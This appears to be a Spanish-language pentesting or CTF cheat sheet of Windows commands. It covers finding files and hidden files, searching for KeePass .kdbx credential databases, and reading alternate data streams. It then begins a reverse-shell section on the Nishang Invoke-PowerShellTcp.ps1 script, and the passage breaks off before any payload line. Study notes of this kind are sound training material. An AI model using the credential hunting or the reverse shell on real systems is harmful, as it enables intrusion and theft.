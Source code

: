 ## Buscar archivos


Esto es desde powershell pero desde cmd solo quita lo primero

```cmd
cmd /c dir /r /s user.txt
```

## Buscar archivos ocultos

Para listar y buscar usa estas opciones

```
dir /a:h
```

En powershell

```
Get-ChildItem -Force
```

Buscar archivos de una extencion 

```
Get-ChildItem -Recurse -Filter *.kdbx -Force | Select-Object FullName
```

## Alternative data streams

![image](https://github.com/gecr07/Acordeon/assets/63270579/408d5854-40cb-4f53-b6b5-c8932c8bd6b1)


Es una manera de esconder cosas y se ve algo como esto:


Para listar este tipo de archivos

```
dir /R
more < hm.txt:root.txt

```



## Reverse shell for windows

> Nishang is a framework of scripts and payloads that enables using PowerShell for offensive security. I’ll show the reverse shell, but there is a ton more stuff in here.

> https://github.com/samratashok/nishang

###  Nishang (via Invoke-PowerShellTcp.ps1)


Entonces ponemos es linea hasta abajo del archivo con nuestra IP:
